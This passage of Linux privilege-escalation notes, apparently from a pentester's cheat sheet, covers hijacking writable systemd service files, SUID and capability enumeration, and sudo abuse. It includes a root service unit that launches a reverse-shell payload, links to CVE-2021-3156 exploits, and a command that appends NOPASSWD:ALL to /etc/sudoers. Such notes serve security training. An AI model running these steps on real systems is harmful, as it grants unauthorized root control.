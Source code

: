 ## Abusing Service Files
- If we can write to any `.service` we can modify it accordingly and trigger a malicious payload (i.e generated with `msfvenom`) under the `ExecStart` entry. We can also modify the `User` entry to get the payload to be executed by said user.
```zsh
[Unit]
Description=Python App
After=network-online.target

[Service]
Type=simple
WorkingDirectory=/home/alexa/python_app
ExecStart=/home/alexa/rev
TimeoutSec=30
RestartSec=15s
User=root
ExecReload=/bin/kill -USR1 $MAINPID
Restart=on-failure

[Install]
WantedBy=multi-user.target
```
- Other actions include `ExecStop` and `ExecReload`
- Also keep in mind that even if we can not modify the `service`file itself, it may use relative paths in its configuration (i.e `ExecStart=python /home/alexa/python_app.py`). If we have write access in any folder used by the PATH of systemd (check which PATH is used with  `systemctl show-environment`) we can place a malicious payload with the same name as the referenced executable.
> [!Important]
> In order to trigger this the service will need to be asked to perform the vulnerable action (**Start**, **Stop**, **Reload**). Also check if you can restart the system in order to trigger the **Start** action. 
# Abusing Linux System Components
## Abusing Setuid Binaries and Capabilities
- As per checklist find SUID binaries with `find / -perm -u=s -type f  2>/dev/null` 
- Use `getcap` to check capabilities
```zsh
/usr/sbin/getcap -r / 2>/dev/null
```
- Use [GFTOBins](https://gtfobins.github.io/) to look up potential privesc paths for improper SUID or capabilities on files

## Abusing SUDO
- Check `sudo` permission with `sudo -l`
> [!IMPORTANT]
> `sudo` versions 1.8.2 to 1.8.31p2 and all stable versions from 1.9.0 to 1.9.5p1 are vulnerable to CVE-2021-3156 also known as _Sudo Baron Samedit_ 
> We can find exploits on [worawit Github](https://github.com/worawit/CVE-2021-3156)or [this exploit](https://github.com/mohinparamasivam/Sudo-1.8.31-Root-Exploit)
- If we have weak permissions on the file `/etc/sudoers` or we have a SUID binary which allows us to write files, we can add our current user to the suoders file and grant us root access through sudo
```zsh
echo "alexa ALL=NOPASSWD:ALL" >> /etc/sudoers
```
